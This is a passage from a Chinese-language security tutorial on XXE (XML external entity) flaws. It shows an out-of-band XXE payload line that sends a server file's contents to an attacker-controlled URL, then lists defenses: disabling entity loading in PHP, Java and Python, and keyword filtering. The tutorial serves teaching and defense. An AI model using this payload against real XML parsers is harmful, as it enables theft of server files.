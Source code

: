 ```bash
?>
```
创建test.xml并写入以下内容：
```bash
[html] view plain copy
<!ENTITY % all "<!ENTITY % send SYSTEM 'http://localhost/test.php?file=%file;'>">  
```
当访问http://localhost/index.php, 存在漏洞的服务器会读出text.txt内容，发送给攻击者服务器上的test.php，然后把读取的数据保存到本地的test.txt中。

*注：xxe的利用姿势以及绕过防御姿势有很多，这里不再一一介绍啦*

#### xxe漏洞修复与防御
##### 使用开发语言提供的禁用外部实体的方法
PHP：
```bash
libxml_disable_entity_loader(true);
```
JAVA:
```bash
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);
```
Python：
```bash
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```
##### 过滤用户提交的XML数据
过滤关键词：<!DOCTYPE和<!ENTITY，或者SYSTEM和PUBLIC。

### 参考文档
https://security.tencent.com/index.php/blog/msg/69
http://blog.csdn.net/u011721501/article/details/43775691
https://b1ngz.github.io/XXE-learning-note/
http://bobao.360.cn/learning/detail/3841.html
